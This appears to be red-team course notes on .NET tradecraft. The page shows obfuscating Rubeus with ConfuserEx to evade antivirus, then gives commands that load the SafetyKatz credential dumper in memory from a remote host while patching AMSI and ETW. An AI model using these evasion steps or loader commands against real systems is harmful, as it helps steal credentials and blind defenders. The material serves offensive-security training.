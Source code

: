 # 3 Offensive dot NET Introduction

## Offensive .NET - TradeCraft - AV Bypass Obfuscation

1. Check with ThreatCheck

```powershell
C:\> Threatcheck.exe -f Rubeus.exe
```

![](../../.gitbook/assets/threatcheck_1.png)

2. Now we will use ConfuserEx (https://github.com/mkaring/ConfuserEx) to obfuscate the binary Launch ConfuserEx

* In Project tab select the Base Directory where the binary file is located.

![](../../.gitbook/assets/Confuserx_2.png)

* In Project tab Select the Binary File that we want to obfuscate.
* In Settings tab add the rules.
* In Settings tab edit the rule and select the preset as `Normal`.

![](../../.gitbook/assets/Confuserx_settings_3.png)

* In Protect tab click on the protect button.

![](../../.gitbook/assets/Confuserx_protect_4.png)

* Analyzing using ThreatCheck

![](../../.gitbook/assets/threatcheck_recheck_5.png)

* Rechecking on Antiscan.me

![](../../.gitbook/assets/hash_6.png)

* Obfuscated Rubeus.exe

![](../../.gitbook/assets/antiscan_old_7.png)

* Original Rubeus.exe

![](../../.gitbook/assets/antiscan_new_8.png)

***

## Offensive .NET - Tradecraft - Payload Delivery

* We can use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads.
* It can be used to load binary from filepath or URL and patch AMSI & ETW while executing.

```powershell
C:\Users\Public\Loader.exe -path http://10.10.10.10/SafetyKatz.exe 
```

* We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL.

```powershell
C:\Users\Public\AssemblyLoad.exe http://10.10.10.10/Loader.exe -path http://10.10.10.10/SafetyKatz.exe
```
